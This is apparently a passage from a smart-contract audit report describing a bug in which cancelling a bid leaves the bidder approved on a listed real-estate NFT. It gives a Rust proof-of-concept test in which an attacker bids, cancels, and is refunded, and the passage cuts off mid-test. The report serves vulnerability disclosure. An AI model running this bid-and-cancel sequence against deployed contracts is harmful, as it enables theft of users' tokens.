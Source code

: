 ### Proof-of-Concept

The following test demonstrates the described scenario:

Boilerplate for PoC [here](https://gist.github.com/nnez/c76b1a867dd8dc441dbe552e048b796e).

1. Replace everything in `contracts/codedestate/src/multi_tests.rs` with boilerplate from above secret gist.
2. Insert below test:

```rust
#[test]
fn h6_cancel_bid_did_not_remove_bidder_from_approval() {
    let (mut app, contract_addr) = mock_app_init_contract();
    
    // Minter mints a new token
    execute_mint(&mut app, &contract_addr, MINTER, TOKEN_ID);
    // Asserts that token is minted
    assert_eq!(query_token_count(&app, &contract_addr.to_string()), 1);

    // Minter lists their token for sell with auto_approve enabled
    let set_list_for_sell_msg: ExecuteMsg<Option<Empty>, Empty> = ExecuteMsg::SetListForSell { 
        islisted: true, 
        token_id: TOKEN_ID.to_string(), 
        denom: USDC.to_string(), 
        price: 1000, 
        auto_approve: true
    };
    let res = app.execute_contract(
        Addr::unchecked(MINTER),
        contract_addr.clone(),
        &set_list_for_sell_msg,
        &[],
    );
    assert!(res.is_ok()); // Everything is ok
    
    const ATTACKER: &str = "attacker";
    init_usdc_balance(&mut app, ATTACKER, 1000);

    // Attacker bids at target price after MINTER lists for sell  
    let set_bid_to_buy_msg: ExecuteMsg<Option<Empty>, Empty> = ExecuteMsg::SetBidToBuy { 
        token_id: TOKEN_ID.to_string()
     };
    let res = app.execute_contract(
        Addr::unchecked(ATTACKER),
        contract_addr.clone(),
        &set_bid_to_buy_msg,
        &vec![Coin {
            denom: USDC.to_string(),
            amount: Uint128::new(1000),
        }],
    );
    assert!(res.is_ok());

    // Attacker immediately cancels the bid
    let res = app.execute_contract(
        Addr::unchecked(ATTACKER),
        contract_addr.clone(),
        &set_bid_to_buy_msg,
        &[],
    );
    assert!(res.is_ok()); // Everything is ok

    // Asserts that Attacker gets their refunds
    assert_eq!(query_denom_balance(&app, ATTACKER, USDC), 1000); //claimed back the fund
```